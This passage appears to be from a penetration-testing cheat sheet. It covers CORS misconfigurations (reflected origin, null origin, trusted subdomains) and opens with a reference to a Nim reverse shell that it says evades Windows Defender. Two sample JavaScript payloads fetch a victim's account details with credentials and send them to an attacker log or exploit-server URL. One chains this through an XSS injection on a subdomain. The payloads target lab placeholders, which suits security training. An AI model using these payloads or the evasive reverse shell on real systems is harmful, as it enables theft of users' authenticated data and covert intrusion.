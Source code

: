### 8.7.1	[47]

- see "rev_shell.nim"
- A simple reverse shell written in Nim that bypasses Windows Defender detection.

  

# 9	CORS

## 9.1	REFLECTED ORIGIN HEADER IN Access-Control-Allow-Origin HEADER

### 9.1.1	DESCRIPTION

### 9.1.2	SAMPLE PAYLOAD

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); //target
req.withCredentials = true;
req.send();  

function reqListener() {
location='/log?key='+this.responseText; //Attacker exfiltration server
};
</script>
```

## 9.2	TRUSTED NULL ORIGIN

### 9.2.1	DESCRIPTION

- If Origin: null is accepted origin, payload can be created within an iframe on attacker site, to emulate null origin.

### 9.2.2	SAMPLE PAYLOAD

## 9.3	TRUSTED SUBDOMAINS [36]

### 9.3.1	DESCRIPTION

- If http://test.com is accepted origin, check if http://evil.test.com is accepted origin.
	- If subdomain has an XSS vulnerability, can exploit this to leak sensitive data

### 9.3.2	SAMPLE PAYLOAD

```
<script>

document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"

</script>
```
